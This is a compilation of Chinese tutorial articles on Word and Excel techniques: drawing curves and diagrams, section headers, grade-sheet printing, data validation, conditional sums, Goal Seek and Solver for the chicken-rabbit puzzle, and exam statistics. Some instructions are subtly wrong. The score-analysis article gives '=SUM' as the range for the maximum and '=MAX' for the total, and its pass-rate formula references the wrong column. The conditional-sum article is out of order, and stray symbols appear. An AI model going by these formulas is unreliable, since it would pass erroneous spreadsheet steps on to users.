下一步就是画函数曲线。点击“绘图”工具栏上的“自选图形”按钮，鼠标指向弹出菜单的中的“线条（L）”项，在向右弹出的二级菜单的中点“曲线”项，如图9。在上面所画的坐标系上的按二次函数曲线的形状在适当位置点几个点，不要求十分精确，这是一个草图。按照经验，二次函数曲线有五个点就可以了。画出的结果如图10所示。




这个结果肯定是不满意，我们希望能达到如图11的效果，这就需要对图10进行调整。右键点击二次函数曲线草图，在右键菜单中点“编辑顶点”项，在二次函数曲线草图上出现五个小黑点，如图12，这就是可以调整图形的控制点，调整顶点可以改变图形的形状，直到满意为止。


如果五个顶点调不到满意程度，可以在原图上增加顶点，在图形处于“编辑顶点”状态时，如图12，右键点击图形，在弹出的菜单中选“添加顶点”项，即可在鼠标点击处增加顶点。如果有多余的顶点，可用右键点击该顶点，在弹出的菜单中选“删除顶点”项，如图13，即可去掉鼠标点击的顶点。



我不知道Office中文版的“顶点”这个词在Office英文版中是什么，但我认为所谓“顶点”这个词翻译成中文的“关键点”或“控制点”更容易理解。

通过以上的操作，各位一定会融会贯通，画出自己需要的图形。Word的图形绘制功能还是能满足我们的绝大部分要求的。只要有足够量的顶点，根据不同的位置选择图13中的“平滑顶点”、“直线点”和“角部顶点”中的一个，设置为合适的顶点类型，就可以画出非常复杂的图形。

##### 2. 一些作图小经验

###### 怎样画接触面
在很多地方我们要画一些接触面，如图14。巧妙的使用填充可以达到很好的效果。先画一个狭长的矩形框，图形填充设置为图案填充，使用对角线填充，线条色设为无，再画一条直线调整好位置关系即可。



###### 怎样画立体按钮
所谓立体，实际是人眼的光感，利用图形内部填充可以完成立体按钮效果。先画一个圆，使用渐变填充，底纹样式为斜上，变形为左上亮，形成凸起效果，右下暗；再画一个圆，比上个略小，填充方式同上，只不过变形为左上暗右下亮，形成凹陷效果，线条设为无线条颜色。然后把小圆叠加在大圆上，选中这两个图形，鼠标指向图8中菜单的“对齐和分布”项，会弹出二级菜单，点“水平居中”，如图15所示，重复上面的步骤，点“垂直居中”，这样使两个圆的中心对齐。至此，一个很有立体感的按钮就完成了。图示操作过程和结果如图16所示。




###### 怎样画有立体感的金属片
这可以用图1中的“三维效果样式”按钮设置三维效果样式。我所画的过程和结果如图17所示。先画一条弧线，点绘图工具栏上的“三维效果样式”按钮，弹出一个上拉菜单，选一种合适的三维样式，本文选用的是“三维样式1”，再点击“三维设置”按钮，弹出一个对话框，如图18，调整上面的几个按钮，你会看到各种效果，选择你所需要的，我在这里就不再一一交待了。

###### 怎样画一个有方格线的坐标系
上面已经讲了坐标轴的画法，有时我们需要有坐标方格线的坐标系。

按上面的说法画坐标的纵轴，点击图1中的“直线”按钮，按住Shift键画一条竖线，长度比纵轴略短（为什么？画完就知道了）。点击图1中的“虚线线型”按钮，设置合适的虚线线型。然后按Ctrl+C复制这条竖线到剪切板，再按Ctrl+V几次粘贴所需的条数。选中包括坐标轴在内的所有对象，点击图15的“垂直居中”使各对象中心对齐，再重复上面的步骤，点“横向分布”使各对象左右分布均匀，然后把各对象组合在一起。按Ctrl键拖动此组合对象，复制一个同样的组合，使第二个组合对象按如图8操作，使复制的对象向右旋转90°；重复上面的步骤，使此对象垂直翻转。把这两个对象的位置调整合适，再一组合，就形成了一个有方格线的坐标系。操作过程图示如图19。

Word是一很好用的软件，是一个门槛很低的工具，同时它的功能是很强大的。所以Word入门很容易，要想提高也需要很深的功夫。希望各位老师各位朋友有什么使用经验写出来与大家共享。




## Word中如何使长篇文档呈现不同的页眉

文/湖北 卫华

如何在一个Word文档中设置不同的页眉？有的朋友说：太简单了，不就是打开“文件→页面设置”，再单击“版式”选项卡，勾选其中的“奇偶页不同”；如果希望第一页不一样，也可以勾选其中的“首页不同”，就可以实现不同的页眉。的确是这样，但是，如果一个长篇文档需要根据文档内容呈现十几个不同的页眉，也就是说不同的章节设置不同的页眉，这种操作方法就不行了。那么怎么做呢？这就要考虑利用“分节符”来实现。

分节符是为表示节结束而插入的标记。分节符中保存有节的格式设置元素，如页边距、页的方向、页眉和页脚以及页码的顺序。要为部分文档创建不同于其他部分的页眉或页脚，先对文档进行分节，然后断开当前节和前一节中页眉或页脚间的连接。具体操作步骤是：

- 1. 将光标定位在要使用不同页眉或页脚的页的最后一行的末尾处，单击“插入→分隔符”命令，弹出“分隔符”对话框，选择“分节符”类型中的“下一页”，单击“确定”按钮（如图1所示）。



- 2. 执行“视图→页眉和页脚”命令，打开“页眉和页脚”工具栏，此时的光标会定位在下一页的页眉处。

- 3. 单击“页眉和页脚”工具栏上的“链接到前一个”按钮，关闭页眉之间的链接（标志是在页眉的右上方“与前一节相同”几个字消失）；修改已有的页眉或页脚，或为该节创建新的页眉或页脚。这个设置将应用于本节所有页（如图2所示）。



其余各页若需要修改，按此方法操作即可。

创建了不同的页眉页脚，整个文档采用的是统一的页码。如果要想使文档中节内单独编页码怎么办呢？也是通过“分节符”来实现的。操作方法：先将文档分节（如果已分节就不用做了），方法同上，即插入一个“下一页”的分节符，然后单击“插入→页码”命令，再单击“页码”对话框中的“格式”按钮，在“页码格式”对话框中的“页码编排”选项中选择“起始页码”单选钮即可（如图3所示）。



### Word软键盘让你快速输入常用符号

文/山东 王霞

编辑Word文档时，要输入不能够从键盘上直接输入的符号，大家通常是使用Word“插入→符号”或“特殊符号”功能，或者是通过输入法状态条上的软键盘进行输入。除了这两种方法外，Word另有一个软键盘供用户输入最为常用的符号。

在Word文档中，只要按下“Ctrl+?”组合键，则Word软键盘就会出现在屏幕上（如图）。这时，单击所需的符号即可将其输入到文档中。而且，对于需要成对使用的符号，如《》、{}、（）等，单击后会自动成对插入到文档中，很方便。

Word的软键盘一次仅能输入一个符号，即在单击软键盘上的一个符号后，软键盘即从屏幕上消失。如果是误按了“Ctrl+?”组合键打开了Word软键盘，只要按下Esc键即可将其关闭。



### 变化的标题 不变的操作

#### ——巧用Excel “页面设置” 快速设置不同的标题

文/江西 汤益平

由于工作的关系，每次学校考试一次，我们就像打一次仗：考试完后，各科成绩一出来，就需要将各个班的成绩进行录入，录入完后，再进行格式化输出，然后再进行统计。其中格式输出就需要花不少时间：因为每个班的题头如“高一(×)班成绩表”不同，但是“学号、姓名、语文……” 的表头又相同，我们以前只能采取“笨”办法：将每个班的题头与表头一起复制，然后再插入到各个班的前面，再手工更改班号，然后再到各个班的前面插入分页符……全校有三个年级，每个年级有20多个班，这个任务真是不轻松。通过摸索，我发现在“页面设置”中只需进行一次设置，就可快速完成上述不同的成绩表格化输出。具体操作步骤如下：

##### 1. 归类输入

首先将科目相同的班级成绩在一张工作表中录入，表头中只需设置一个“班级”来区别不同班级，如图1所示。在成绩输入完毕后，利用公式计算出相应的总分及名次。



##### 2. 快速分页

为了确保每个班分别在一页上，这就需要为每个班进行强制分页。可以通过在每个班的前面单击“插入→分页符”命令来完成，但这样也比较麻烦。我们可以利用“分类汇总”命令在计算每个班的各科平均分同时快速地对每个班进行强制分页。“分类汇总”之前先按“班级”升序排序，如果班级中要按总分排名次的话，就要用“数据→排序”命令，然后单击“数据→分类汇总”命令，在设置分类字段、汇总方式及选定了汇总项后，还要勾选“每组数据分页”，如图2所示，这样在自动计算出各个班的平均分的同时进行了分页。



##### 3. 快速设置表头

添加相同的表头，比较简单：点击“文件→页面设置”命令，再点击“工作表”标签，点击“顶端标题行”箭头，再选中工作表中的表头，即第一行，再单击右边的按钮，如图3所示，此时预览工作表，每页上面已经出现了相同的表头。



##### 4. 快速设置标题

由于每个班班号不同，因此不能用设置表头的方法来设置标题。我们可以设想采用根据页号来变化标题：由于一般的班名都是“高一(1)班、高一(2)班……等，前面我们已经按照班级的升序排序，且每个班级均已经进行了分页。因此设置标题时，这个变化的班级号可以利用“页码”来完成，当打印高一(10)班时，10班就是第10页，页号与变化的标题刚好吻合。步骤如下：单击“文件→页面设置”命令，单击“页眉/页脚”标签，再单击“自定义页眉”，在中部输入标题“高一(&[页数])班成绩表”，对于变化的班号则单击“页码”按钮，如果需要改变标题格式，则可以单击“字体”按钮进行设置，如图4所示。



最后打印预览，观察页眉的距离与正文距离是否合适，再观察每个班的内容是否在一页，对于人数较多的班级超出一页的可以调整“行高”，将该班缩至一页上，只有这样后面的班级才会刚好与页号吻合。

注意：(1)当遇到中间有几个班型不同，如5、6、7、8班不同，可以在9班前插入4个分页符，打印时分别点击不同的页号即可。(2)这4个不同的班型放在另一张工作表中，按上述方法同样操作，只需在“页面设置”对话框的“页面”标签设置起始页码为5即可。

通过以上方法设置变化的标题，大大地提高了工作效率。

### 表格合并、拆分、分析不用愁，数据助手解你忧

文/山东杯中水

在进行学生成绩管理的时候，往往需要将各个班级或者各个学科的成绩进行汇总，或者将总表按照相反的顺序进行拆分，有时还要对表格进行分析，看是否具有重复内容，查找指定条件数据，清除无用数据等。这些操作如果手动进行，工作量会非常大，也比较容易出错，借助Excel数据助手（下载地址： http://www.skycn.com/soft/53131.html），可以很轻松地解决这些问题。

#### 数据合并

如果需要将多个表结构相同的表格合并到一个表中，可以借助合并数据功能实现。这又分为两个情况，一是所有表格在一个工作簿的不同工作表中，二是所有表格在不同的工作簿文件中。如果是在一个文件中，可以依次单击“合并数据→将多个工作表合并为一个工作表”链接按钮，在弹出的对话框中单击“浏览”按钮找到需要合并的工作表所在文件，根据实际表头在“从第几行开始处理数据”文本框中输入开始的行号，并勾选“以工作表名称自动添加1列”复选框（见图1），最后单击“合并保存”按钮，在弹出的对话框中起个新文件名保存即可。合并后的所有工作表数据自动保存在新文件的Sheet1工作表中，并且会自动添加一名称为“所属的原工作表”的列，自动记录原工作表的名称。



如果需要合并多个工作簿，可以依次单击“合并数据→将多个工作簿（文件）合并为一个工作簿（文件）”链接按钮，弹出合并对话框。如果选择“合并到一个工作表中”单选按钮，会将所有的表格合并到一个表格中，这时需要设定开始的行号以及是否自动添加原文件名和工作表名新列。如果选择“合并为多个工作表”单选按钮，会将所有的工作表合并到新文件的不同工作表中。设定好后单击“浏览”按钮找到需要合并的工作表所在文件夹，再单击“合并保存”按钮，起个新的名字保存即可。

#### 数据拆分

如果需要拆分的数据在一个文件的不同工作表中，依次单击“拆分数据→将多个工作表拆分多个工作簿（文件）”链接按钮，在弹出的拆分对话框中单击“浏览”按钮找到需要拆分的文件，再单击“保存拆分”按钮，指定一个保存的文件夹，软件就会将工作簿中的各个工作表以对应名称保存起来。如果需要拆分的数据在一个工作表中，依次单击“拆分数据→将一个工作表拆分多个工作簿（文件）或多个工作表”链接按钮，弹出拆分对话框。如果选择了“拆分成多个工作簿（文件）”单选按钮，会将表格拆分成多个文件，如果选择了“拆分成多个工作表”单选按钮，会将表格拆分到一个文件的不同工作表中。单击“浏览”按钮找到需要拆分的原表格文件，在“请选择工作表”列表中选择原表所在的工作表，在拆分条件列表中选择拆分的列，如果勾选了“拆分后新工作表中不包含拆分条件的列”复选框，拆分条件所在的列会被自动删除，最后单击“保存拆分”按钮，指定一个目标位置保存即可（见图2）。


#### 数据分析

如果需要将两个表格进行比较分析，依次单击“分析数据→比较数据”链接按钮，在弹出的比较对话框中单击“第一个Excel文件”旁边的浏览按钮，添加第一个文件，再单击“第二个Excel文件”旁边的浏览按钮，添加第二个文件，并分别在“选择工作表”列表中选择文件中对应的工作表，最后单击“比较并保存”按钮，起个名字保存起来即可（见图3）。



如果需要查找指定条件的记录并保存起来，可以依次单击“分析数据→查找数据”链接按钮，在弹出的查找数据对话框中单击“浏览”按钮找到原文件，在“请选择工作表”列表中指定一个工作表，在查找的内容文本框中输入需要查找的信息，最后单击“保存查找结果”按钮，起个名字保存即可。

如果需要将一些过期或者无用的信息从表格中清除，可以依次单击“分析数据→清除无用数据”链接按钮，在弹出的清除无用数据对话框中“原Excel数据文件”旁边单击浏览按钮找到需要处理的原表格文件，再在“想要清除的数据”旁边单击“浏览”按钮找到需要清除的条件数据表格文件，并分别在“选择工作表”列表中指定对应的工作表，最后单击“保存结果”按钮，起个名字保存即可。

### 活学活用，用EXCEL制作历史地图

文/河北 刘海艳

在历史教学过程中经常会用到一些历史图片，特别是地图，但因为课本上的地图一般都不是很清晰（黑白色），所以很难激发学生的学习兴趣，这也就为教学带来了不便。后来我在制作历史课件时，发现借助PowerPoint能很好地解决这一难题。当地图、图片、图表、示意图等伴随着美妙的音乐在大银幕上动起来时，以往枯燥的读图活动变成了十分惬意、轻松愉快的事。

例如，学生在阅读教材时，即使看了多遍《帝国主义瓜分中国的狂潮图》，但怎么也不会留下多么深刻的印象，有许多学生甚至对帝国主义国家在中国划分的势力范围在什么方位、到底有多大都说不出来。于是我制作了课件，把当时的地图用彩色标示出来，当他们看到大屏幕上一千多万平方公里的清朝的版图上，德国、日本、法国、英国、俄国等相继把山东、福建、两广和云南、长江流域、长城以北一块一块地划为自己的势力范围时，清朝的版图上出现了一个个不同的颜色块，最后只剩下了长城——长江之间可怜的长条地带，学生们总会“哇”地惊叫起来，对教师所讲的“瓜分豆剖，渐露机芽”留下深刻的印象！这就是多媒体教学的优越性。事实上，在讲解《帝国主义瓜分中国》这一内容时，教师的语言虽然并不太多，但却收到了理想的效果。

那么，这种声色并茂的地图是怎样制作的呢？

#### 1. 选择一幅合适的空白地图

有三种途径可以完成这一工作。一是借用现有光盘，如使用专业地图光盘；二是借助扫描仪把教材或教参中的地图扫描下来备用。第三种也就是要重点说的就是利用我们常用的办公软件Excel来制作地图。

- ① 选“插入”菜单，单击“对象”，选择“Microsoft地图”，如果你的微机还没有安装这一功能，请先安装Microsoft地图，选取合适的比例，裁取自己所需的地图区域（如图1）。



- ② 在出现的Microsoft地图窗口中，选择“地图”菜单中的“添加地图项”，就可以找到中国及世界地图（如图2）。



- ③ 在任何一张地图上，将鼠标移动到任何一个地点就会出现该区域的省份及相关城市，单击鼠标左键就可以将省份或城市的名称写在相应位置。

- ④ 选择Microsoft地图窗口中的“编辑”菜单中的“复制”，就可以将地图复制下来。

#### 2. 把空白地图粘贴到PowerPoint中。

选定准备使用的空白地图，单击“复制”，然后切换到PowerPoint，插入一张空白幻灯片，单击“粘贴”，所需的空白区域地图出现在幻灯片中。调整地图的大小，注意保持地图的比例（如图3）。



#### 3. 对空白地图进行专业加工制作。

利用“绘图”工具栏，在地图上任意画出自己想要强调的所有标志或文字。地图显示比例太小时会给手工绘制带来一定困难，可以调整显示比例解决这一问题。绘图工具栏中的“自选图形”有许多工具都能派上大用场，如“线条”中的“自由曲线”、“流程图”、“基本形状”、“箭头总汇”、“标注”等。当然“矩形”、“椭圆”、“文本框”、“填充颜色”、“线条颜色”、“字体颜色”、“线型”、“三维效果”等也是必不可少的。总之，所绘制的地图要能充分反映出教学要求以及个人的教学特色。

下面以绘制西藏自治区区域为例，给大家做以示范。

- ① 选择★★★★★，绘图工具栏中的“自选图形”、“线条”、“任意多边形”，用任意多边形可以较准确的画出对应的区域（如图4）。



- ② 在西藏自治区区域边缘上的一处单击鼠标左键，然后放开左键，在根据边缘的曲折情况进行左击，通过关键点的点击来改变任意多边形的形状，注意最后一次点击一定要和第一次点击处重合。这样一个和西藏自治区大致相同的任意多边形就产生了，然后我们可以给多连形添加颜色（如图5）。

#### 4. 为了更有效地突出强调的内容，我们可以给地图加上动画和声音效果。

如，想要展示某一帝国主义国家在中国划分的势力范围，则可以打开“幻灯片放映”菜单，单击“自定义动画”，在“效果”、“动画声音”中把该内容定义为诸如“盒状收缩”、“盒状展开”或“中部向上下展开”、“中部向左右展开”等效果。在声音效果中选择一段切合主题的背景音乐。对于地名、标注或其他特殊内容，都可以如法炮制，为它们设置一种动画和声音效果。把要强调的内容全部加上动画或声音效果后，

可以根据演示的顺序为所有的动作排一下队，确定动作的先后，以及出现动画效果的时间间隔（即“在前一事件后的X秒”）。如果这张地图是和其他幻灯片一块使用，请选定刚制作好的这张幻灯片，在工具栏上“幻灯片的切换效果”中为这张幻灯片选择一种最佳切换方式。

根据以上方法，可以举一反三，设计出各种不同的图片效果、图表效果、示意图等，只要教师稍动脑筋，即可使整个课堂教学活泼生动起来。

### 规范电子表格格式的数据报表

文/深圳 严太波

许多管理系统的基层报表都是用电子表格来填报，而基层的电子表格数据的规范性直接决定最终数据汇总的准确度和速度，为此我们会在报表的填报说明中有比较详细的要求和说明，甚至还要举办专门的培训。即使是如此，也还不能完全保证基层的报表是我们预期的结果，为此，我对电子表格的功能进行了进一步的研究，找到了为报表规范填报所能预期的一些操作，在实际应用中收到了很好的效果，特此总结出来供大家参考。

下面我以学校学生分科时填报学生所选科类的报表规范为例来说明。

报表的电子表格栏目如下：前三列为固定不变的，第四列“科类”只能是填报“文科”、“理科”、“音乐”、“体育”、“美术”等五种类型（如图1）。



实际操作时，可能出现的一些主要问题有：一是学生将前面要求不变的信息误删除或更改了；二是填报的科类不规范，如填报“体育”类时填为“体考”、“理科”或其他科类时，中间含有一个或多个空格。这样在最后的报表中，会造成得到的数据不规范，处理起来难度加大，准确度势必大大降低。理想的情况是那些不能更改的项目完全固定，不能有意或无意让填表的人变动，要输入内容的从一个下拉列表中选择输入，这样就可以防止上述问题的产生。具体操作步骤如下：

#### 输入数据的规范化

在如上图的电子表格中，选中D3单元格，利用菜单“数据（D）→有效性（L）…”，弹出如下窗口（如图2）：



在“数据有效性”窗口中，选择“设置”标签，在“允许（A）”下拉列表框中，选择“序列”，并选中“忽略空值”和“提供下拉箭头”前的复选框。在“来源”下面的输入区域输入：文科,理科,音乐,体育,美术。注意输入时，中间逗号为英文半角逗号，输入后单击“确定”按钮，这样就设置完成了。其他标签内容可设可不设。设定完成后，在单元格D3的旁边会出现了一个下拉箭头。在输入数据时，只需要单击此下拉箭头就会出现对应的五个选项，选择其中一项后，单元格中就出现所选的值。接下来，将此单元格的格式向下复制到所需要输入的全部区域。

#### 输入区域的设定

将上述输入区域全部选中后，选右键菜单命令“设置单元格格式（F）…”，将“单元格格式”窗口中“保护”标签下的“锁定”复选框中前面的钩取消并点击“确定”。

再利用“工具（T）”菜单中的“保护（P）→保护工作表(P)…”命令，调出命令窗口如下（如图3）：



一般利用默认复选框选项即可，输入保护密码并重复输入后“确定”，到此就完成了这个操作。

#### 使用效果

完成以上设置后，对电子表格进行保存，在输入数据时，当无意或有意试图在非输入单元格输入时，就会弹出如下提示信息（如图4）。



可输入信息部分，单击单元格旁边的下拉箭头，就会弹出刚才输入的项目供选择，如下图（图5）。



以上操作在实践中检验，收效很好。

### 条件函数出手，分类汇总无忧

文/江苏 姚文连

最近我在汇总员工绩效工资的时候，碰到了一个数据汇总问题。这里以员工董伟玮为例，他本月共完成四笔业务，业绩提成就是这四笔业务的提成工资之和7100，而浮动工资则是四笔业务浮动工资的平均值900，二者之和8000就是他这个月的绩效工资。

使用过Excel分类汇总命令的朋友都知道，Excel一次只能对一个有序的“分类字段”进行汇总，要么求和，要么平均值，二者不能兼顾。当然，我们可以对目标数据进行两次分类汇总，班级指标的汇总方式为求和，学科优胜的汇总方式为平均值，但是两个汇总结果又分布在不同的数据行，排版打印比较麻烦（如图1）。

首先，复制部门和姓名数据区域B1：C17（包含数据列名称）到I1：J17，然后选定执行I1：J17数据区域，执行“数据→删除重复项”命令，筛选出不重复的教师姓名。

对相关数据区域进行简单的输出格式设置之后，在K2单元格中插入条件求和函数“=SUMIF(C2:C17,J2,D2:D17)”，其中，C2:C17为判断条件的区域，J2为条件，D2:D17则为实际求和区域，该函数的作用是对满足条件单元格数据求和，将该函数向下引用到其他单元格，即可完成“提成”数据列的求和汇总。同理，在L2单元格中插入条件平均函数“=AVERAGEIF(C2:C17,J2,E2:E17)”，很快也可以完成“浮动”数据列的平均汇总。有一点要提醒大家，Excel 2003不支持AVERAGEIF函数，但可以使用SUMIF函数和条件计数函数COUNTIF，来实现条件平均的汇总操作（如图2）。

图1 表格截图，展示员工部门、姓名、提成和浮动工资数据，以及按姓名分类汇总后的结果（平均值、汇总）。

图2 表格截图，展示使用SUMIF和AVERAGEIF函数进行条件汇总后的结果，包含“序号”、“部门”、“员工姓名”、“提成”、“浮动”、“合计”列及对应公式。

其实，我们可以借助Excel 2007条件求和函数SUMIF和条件平均函数AVERAGEIF，轻松解决按不同条件汇总多个字段数据的问题，具体操作方法如下。

我们都知道，在执行分类汇总之前，必须先以“分类字段”为主关键字，对目标数据项进行排序，否则无法进行正确的汇总操作。而使用条件函数进行数据汇总，不仅能根据不同条件对多个字段进行汇总，而且对没有排序的数据也同样适用。

### 给Office文档暗藏一剂后悔药

文/山东 杯中水

我们知道，同样的信息从不同的角度进行处理会得到不同的结果，也就是说信息的加工具有多元性。在编辑修改自己的Office文档的时候，你是否遇到过这种情况？某个领导按照他的要求让你处理某个数据，处理完之后没有多加思索就按下了“保存”按钮，可是随之就后悔忘了“另存”了，由于直接保存将原始的一手材料覆盖了，怎么办？如何才能避免这样的危险性操作？有没有解救的办法？

其实，我们只要稍加设置，就可以保留一个原始文档的备份，后悔时直接打开这个备份就可以了。下面以Word 2003为例进行介绍。

在Word文档中执行“文件→另存为”命令，在弹出的“另存为”对话框中单击右上角的“工具”按钮，然后在弹出的菜单中选择“保存选项”菜单命令，弹出“保存”对话框（见图），在“保存选项”标签组中勾选“保留备份”复选框，再单击“确定”按钮即可。



通过这样的操作，再次保存文档的时候会在对应文档的同级文件夹中生成一个名为“备份属于原文档名称”的备份文件。需要找回原始文档的时候，直接打开这个文件就可以了，不过需要注意的是，这个文档保存的只是最近一次保存过的内容，如果执行了多次保存操作，就很难凑效了。

其他Office组件的设置方法也基本相同。在Excel中需要在工具按钮的下拉菜单中选择“常规选项”命令，然后在弹出的对话框中勾选“生成备份文件”复选框。

### 活用Excel 2007，巧解鸡兔同笼难题

大约在一千五百年前，大数学家孙子在《孙子算经》中记载了这样的一道题：“今有雉兔同笼，上有三十五头，下有九十四足，问雉兔各几何？”这四句的意思就是：有若干只鸡和兔在同一个笼子里，从上面数，有三十五个头；从下面数，有九十四只脚。求笼中各有几只鸡和兔？同学们，你会解答这个问题吗？

当然，这道曾经难倒古人的题，现在用二元一次方程组就可以轻松解决。不过在信息时代，让我们看用微软的Excel 2007是如何解决这个问题的。

首先分析题目，基本的思路是，每只鸡有1个头、2只脚；每只兔有1个头、4只脚。那么鸡的头数+兔的头数=35，鸡的头数×2+兔的头数×4=94。根据这两个相互关联的等式，即可求出鸡和兔的具体只数。

#### 方法一：单变量求解

在Excel 2007中的Sheet1工作表中制作如图1所示表格，“鸡头”所在的B3单元格置空，“鸡脚”所在的C3单元格输入“=B3*2”，在“兔头”所在的B4单元格输入“=B5-B3”，在“兔脚”所在的C4单元格输入“=B4*4”，在B5单元格中输入头的总数35，在C5单元格（脚的总数）中输入“=C3+C4”。

|   | A | B | C |
|---|---|---|---|
| 1 | 单变量求解 |   |   |
| 2 |   | 头 | 脚 |
| 3 | 鸡 |   | 0 |
| 4 | 兔 | 35 | 140 |
| 5 | 合计 | 35 | 140 |

所有输入工作完成后，切换到“数据”工具组，用鼠标点击“数据工具”栏中的“假设分析”按钮，在下拉菜单中选择“单变量求解”，就会弹出“单变量求解”设置面板。在此面板中将“目标单元格”设置为“$C$5”（即脚的总数），“目标值”中输入题目中给出的94，再将“可变单元格”设置为“$B$3”（如图2）。



然后点击“确定”按钮。即可得出正确的结果，并将正确答案（鸡23只，兔12只）填充到相关的单元格（图3），单击“确定”按钮退出即可。

|   | A | B | C |
|---|---|---|---|
| 1 | 单变量求解 |   |   |
| 2 |   | 头 | 脚 |
| 3 | 鸡 | 23 | 46 |
| 4 | 兔 | 12 | 48 |
| 5 | 合计 | 35 | 94 |

#### 方法二：规划求解

MS Office 2007默认安装并没有开启规划求解功能。要用规划求解功能，首先要在Excel 2007界面中单击“Office”按钮，选择“Excel选项”，在弹出的界面中选择“加载项”，单击界面左下方的“管理”后面的“转到”按钮，然后在“加载宏”对话框中勾选“规划求解加载项”（图4），点击“确定”退出。



在sheet2工作表中制作如图1所示表格，并设置好与上例同样的公式，唯一区别是在C5单元格不输入公式，而是直接输入目标值94。

然后切换到“数据”工具组，单击“分析”工具栏中的“规划求解”按钮。在弹出的“规划求解参数”面板中做如图5所示设置。由于“目标单元格”要求必须包含公式，因此将“目标单元格”设置为B4，而“可变单元格”设置为“B3”。“最小值”所以设置为“1”，是考虑到如果为“0”，则只有鸡没有兔，就不是“鸡兔同笼”了。



然后单击“求解”按钮，即得到如图6所示结果。在表格中自动填充了正确的结果。单击“确定”按钮退出即可。

|   | A | B | C |
|---|---|---|---|
| 1 | 规划求解 |   |   |
| 2 |   | 头 | 脚 |
| 3 | 鸡 | 23 | 46 |
| 4 | 兔 | 12 | 48 |
| 5 | 合计 | 35 | 94 |

与“单变量求解”法相比。如果题目发生了改变（如改成共100个头，250个脚），“规划求解”的方法只需在表格中更改目标值，在“规划求解参数”面板中不需做任何更改即可迅速求出正确答案。

### 巧用函数来分析学生考试成绩

文/安徽 吴加强

学校每次考试后，都要对学生的成绩进行分析，这项工作枯燥、机械、重复！如何快速地做好呢？对学生的成绩分析不外乎最高分、最低分、总分、均分、及格人数、及格率、优秀人数、优秀率、分数段以及参考人数的统计，我是利用Excel函数来处理的，应用效果比较好。下面把它写出来，与大家分享。

| 准考证号 | 姓名 | 语文 | 数学 | 英语 | 政治 | 历史 | 地理 | ... |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 50 | 学生A | ... | ... | ... | ... | ... | ... | ... |
| 51 | 学生B | ... | ... | ... | ... | ... | ... | ... |
| ... | ... | ... | ... | ... | ... | ... | ... | ... |

#### 1. 巧用VLOOKUP来获取行标题

用鼠标选中D56，单击工具栏自动求和按钮，选择下拉菜单中“其他函数”，弹出“插入函数”对话框，选择类别“全部”，在“选择函数”中找到VLOOKUP函数并单击（如图2），弹出对话框，按图3的方法输入查找的数值、查找的范围和返回值，即可获得行标题“语文”（也可直接在D56中输入“=VLOOKUP(D1,D1:K1,1)”）。接着把鼠标移至D56单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到K56单元格，整个行标题获取完成。





#### 2. 巧用MAX和MIN函数来求得最高分和最低分

用鼠标选中D57，单击工具栏自动求和按钮，选择下拉菜单中的“最大值”，选择统计的范围“=SUM(D2:D51)”，确定即得语文的最高分。接着把鼠标移至D57单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到K57单元格，整个学科最高分统计完成。用鼠标选中D58，按照上述方法统计最低分（要将“最大值”改为“最小值”）。

#### 3. 巧用SUM和AVERAGE函数来求得总分和均分

用鼠标选中D59，单击工具栏自动求和按钮，选择下拉菜单中的“求和”，选择统计的范围“=MAX(D2:D51)”，确定即得语文的总分。接着把鼠标移至D59单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到K59单元格，整个学科总分统计完成。用鼠标选中D60，按照上述方法统计均分（要将“求和”改为“平均值”）。

#### 4. 巧用COUNTIF函数来求得及格人数和优秀人数

用鼠标选中D61，单击工具栏自动求和按钮，选择下拉菜单中“其他函数”，弹出“插入函数”对话框，选择类别“全部”，在“选择函数”中找到COUNTIF函数并单击，弹出对话框，按图4的方法添加查找的范围和条件，即可得到语文的及格人数。接着在E61中使用COUNTIF函数求得数学的及格人数（注意：若语文是120分制，72分及格，数学等学科是100分制，60分及格），然后把鼠标移至E61单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到J61单元格，则其他学科的及格人数统计完成。



#### 5. 巧用FREQUENCY函数来统计各分数段的人数

用鼠标选中区域D65到D76，在编辑栏输入“=Frequency(D2:D51, {9,19,29,39,49,59,69,79,89,99,109,120})”，其中D2:D51是需要统计的数据，{9,19,29,39,49,59,69,79,89,99,109,120}是统计标准，接着按住Ctrl+Shift+Enter组合键产生数组，得到语文学科的分数段。接着用鼠标选中区域D65到D76，把鼠标移至选中区域的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到J76单元格，整个学科分数段统计完成。

#### 6. 巧用COUNT函数来统计考试人数

用鼠标选中D77，单击工具栏自动求和按钮，选择下拉菜单中的“计数”，选择统计的范围“=COUNT(D2:D51)”，确定即得语文的考试人数。接着把鼠标移至D77单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到J77单元格，整个学科考试人数统计完成。

#### 7. 利用公式计算及格率与优秀率

用鼠标选中D62，在编辑栏输入“=E61/E77”，确定即得语文的及格率，可将单元格的格式设为百分比，小数位数为2。接着把鼠标移至D62单元格的右下方，待出现鼠标出现实心的“+”形状，按住鼠标左键不放拖动鼠标到J62单元格，整个学科及格率统计完成。类似，在D64的编辑栏输入“=D63/D77”并拖动，可得整个学科的优秀率。

至此，学生的考试成绩分析完成，做好后可将它存为模板，以后只要将学生成绩部分替换即可，无需再做。Excel的功能非常强大，只要我们平时细加研究，定能给我们的生活带来很大的方便。

### 让Excel自动完成成绩处理和统计

文/唐山 张贻忠

每个学期，学校都要进行几次学生成绩处理和统计，校园网平台上的成绩处理和统计系统并不适合我们学校，所以我用Excel制作了成绩处理和统计系统（一个工作薄文件），此工作薄共包含“录入”、“排名”、“平均分”、“通头教师”、“各段人数”五张工作表。此系统的优点是只需要在“录入”工作表中录入成绩，而其他工作表中的数据都是依据“录入”工作表中的成绩自动成生的。此系统可以完成以下功能：

- 1. 学生各科成绩录入；
- 2. 自动完成学生的总分计算，并生成学生成绩的校排名、班排名；
- 3. 统计全校和各班的平均分；
- 4. 统计各科通头教师所教班平均分及排名；
- 5. 统计全校和各班各分数段（优、良、中、可、差）的人数。

下面介绍电子表格的制作方法。

#### 制作“录入”工作表

选择Sheet1工作表，将工作表标签重命名为“录入”。此表可使录入更方便。如图1。


制作此表的几点说明：

- 1. 基础输入和设置：班级、学号、姓名为行标题，各科名称为列标题，将标题区域填充底色，以区分分数区域。记录按班级（第一关键字）和学号（第二关键字）升序排列。
